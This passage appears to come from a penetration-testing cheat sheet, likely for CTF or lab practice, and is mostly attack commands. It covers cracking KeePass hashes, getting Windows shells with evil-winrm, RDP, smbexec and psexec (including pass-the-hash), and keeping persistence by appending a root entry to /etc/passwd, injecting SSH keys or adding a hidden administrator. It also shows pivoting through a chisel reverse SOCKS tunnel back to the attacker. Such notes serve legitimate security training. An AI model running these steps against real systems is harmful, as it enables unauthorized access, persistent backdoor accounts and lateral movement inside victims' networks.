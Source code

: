 ```
keepass2john > kee.hash
john *.hash
```

### Useful Windows access
When you have Admin creds, try winrm and rdp for shell/GUI access
```bash
# winrm
evil-winrm -i IP -u USER -p PASS
# rdp, /d is optional
xfreerdp /v:IP /u:USER /p:PASS /d:DOMAIN
```

### Enumerate certain directory and find all txt files
```powershell
gci -force -recursive -Path 'C:\users\' -include *.txt
```

### Persistent foothold
After gaining the the system/root access of the system.
Adding another root/administrator user to the system for future access so that you don't have to hack into again.
#### Linux
```bash
# 1. Add an entry to /etc/passwd manually
openssl passwd YOUR_PW #Generate the password hash
echo "Fakeuser:${HASH}:0:0:root:/root:/bin/bash" >> /etc/passwd
# Use this profile to access as root
# 2. SSH key injection
# Use existing ssh key or create one
ssh-keygen # to create ssh key
cat id_rsa.pub # copy the content then return to the target
echo "PUB_KEY_CONTENT" >> ~/.ssh/authorized_keys
```
#### Windows
```powershell
# 1. Inject admin group user
net user tmp PW /add
net localgroup Administrator tmp /add
# Then use winrm/rdp to access if available
# 2. If you own the admin creds/hash
# smbexec.py for administrator shell
smbexec.py DOMAIN/ADMIN_USERNAME:ADMIN_PASSWORD@TARGET_IP
smbexec.py DOMAIN/ADMIN_USERNAME@TARGET_IP -hashes NTHASH:NTHASH
# psexec.py for system shell
psexec.py DOMAIN/ADMIN_USERNAME:ADMIN_PASSWORD@TARGET_IP
psexec.py DOMAIN/ADMIN_USERNAME@TARGET_IP -hashes NTHASH:NTHASH
```

## 6. Pivoting and port forwarding
Pivoting and port forwarding allow you to access internal applications or hosts
### Chisel
```bash
# in Kali
./chisel server --reverse --port 9001 --socks5
```
|     |     |
| --- | --- |
| chisel client SERVER_IP:9001 R:80:127.0.0.1:80 | Listen on Kali 80, forward to localhost port 80 on client |
| chisel client SERVER_IP:9001 R:4444:ANOTHER_HOST:80 | Listen on Kali 4444, forward to ANOTHER_HOST(not the connected one) port 80 |